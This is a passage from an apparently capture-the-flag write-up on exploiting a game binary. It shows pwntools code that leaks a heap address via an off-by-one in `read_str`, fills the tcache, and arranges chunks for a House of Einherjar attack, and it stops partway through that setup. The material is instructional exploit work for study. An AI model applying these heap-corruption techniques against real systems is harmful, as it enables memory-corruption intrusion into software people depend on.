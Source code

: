 # Exploitation

First, we need heap leak for the above. This can be gotten from (again!) the off-by-one in `read_str`, now on
`username`, because in the player struct, `name` is right before the `inv[]` array. So by making sure `name` has no null
byte, we can leak the pointer to `inv[0]`.

```py
p.sendline(b"a"*32)

# clear lvl 1 to earn enough gold for heap exploit
level1(p)

# leak heap base
p.clean()
purchase(p, b"Poison") # get heap pointer (which is next to username)
p.recvuntil(b"a"*32)
leak = u64(p.recvuntil(b"'s", drop=True).ljust(8, b"\x00"))
heap_base = leak - 0x2a0
print(hex(heap_base))
use(p, 0)
```

Before doing House of Einherjar, we need to first block off tcache for our second chunk, because tcache chunks aren't
"freed" in the usual sense (it bypasses a lot of the logic in `free()`), and so consolidation won't occur. We can also
use these chunks to "poison" our hp to 0, so we can exit smoothly later when we enter the next level.

```py
# setup the heap
for i in range(7):
    # fill up tcache so that the consolidated chunk doesn't go to tcache
    # but triggers consolidate instead
    purchase(p, b"Poison" + b"a"*(0xf0 - 6)) # use poison to get hp to 0
```

```c
  if (p->hp <= 0) {
    printf("😭\n");
    printf("You died...\n");
    exit(0);
```

Now, we can setup our target chunks and free the previous tcache chunks. Chunk 7 is just any big chunk so we can play
more with target size later. Chunk 8 is the second chunk to overwrite, and chunk 9 prevents consolidation with the
forest so our chunk is placed in unsorted bin instead of becoming new forest (forward consolidation is ok).

```py
purchase(p, b"a"*0x1f8) # 7 - our controlled chunk
purchase(p, b"a"*0xf0) # 8 - consolidated chunk
purchase(p, b"a"*0x20) # 9 - separate from wilderness
for i in range(7):
    use(p, i)
```
